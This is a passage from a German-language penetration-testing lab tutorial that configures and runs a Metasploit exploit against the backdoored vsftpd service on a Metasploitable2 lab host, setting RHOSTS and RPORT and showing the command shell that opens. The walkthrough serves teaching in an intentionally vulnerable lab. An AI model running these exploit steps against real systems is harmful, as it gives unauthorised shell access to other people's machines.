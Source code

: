 
Für uns sind hier an dieser Stelle nur der `RHOST` und `RPORT` wichtig, da wir nicht über einen Proxy laufen oder sonst locale Clients haben.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3.5 Exploit konfigurieren

Jetzt sepzifizieren wir in msfconsole den `RHOST`, also den Remote Host, und den `RPORT`, also den Remote Port, die wir angreifen möchten.

Gib dazu im msfconsole folgenden Befehl ein, um den RHOST und den RPORT zu konfigurieren:

```bash
set RHOSTS 192.168.1.102
set RPORT 21
```

![msfconsole RHOST und RPORT Konfiguration](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd7.png)

Du könntest noch einmal den Befehl `options` eingeben, um zu überprüfen, ob deine Konfigurationen überommen worden sind, aber dies Bedarf es im Regelfall nicht.

**Bist du bereit?**



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3.6 Run that Motherf***

Nutze nun den Befehl `run` oder `exploit`, um den Angriff zu starten. Gib dazu im msfconsole einfach folgenden Befehl ein:

```bash
run
``` 

Wenn alles erfolgreich ist, dann erhältst du folgende Meldung über das Terminal:
```css
[*] Backdoor service has been spawned
[*] Command shell session 1 opened
```
![msfconsole Exploit start](/09-practice-labs/ressourcen/pictures/metasploitable2/metasploit-vsftpd8.png)